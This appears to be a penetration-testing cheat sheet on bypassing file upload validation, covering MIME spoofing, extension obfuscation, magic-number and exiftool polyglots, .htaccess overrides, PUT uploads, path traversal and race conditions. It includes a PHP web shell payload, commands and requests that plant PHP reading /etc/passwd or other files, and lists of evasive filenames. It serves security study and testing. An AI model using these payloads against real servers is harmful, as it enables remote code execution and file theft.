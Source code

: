 # File upload

{% hint style="warning" %}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text.
{% endhint %}

## <mark style="color:purple;">Flawed validation of FU</mark>

### <mark style="color:purple;">**Content-Type**</mark>

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### <mark style="color:purple;">Blacklisted extensions</mark>

* Change extensions

```
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### <mark style="color:purple;">File content validation</mark>

More secure servers try to verify that the contents of the file actually match what is expected.

#### \[1] Magic number: certain file types may always contain a specific sequence of bytes in their header or footer

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

#### **\[2] Polyglot (on exiftool)**: verify certain intrinsic properties of an image, such as its dimensions.

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## <mark style="color:purple;">Overriding server configuration</mark>

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## <mark style="color:purple;">PUT method</mark>

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## <mark style="color:purple;">**FU + PT**</mark>

Defense: Servers block script execution in the file upload folder. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{% hint style="success" %}
Tip: pay attention to stripping. In that case, obfuscate with `filename="..%2fexploit.php"`.
{% endhint %}

## <mark style="color:purple;">FU without RCE</mark>

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## <mark style="color:purple;">FU + Race Conditions</mark>

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### <mark style="color:purple;">Race conditions in URL-based file uploads</mark>

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes
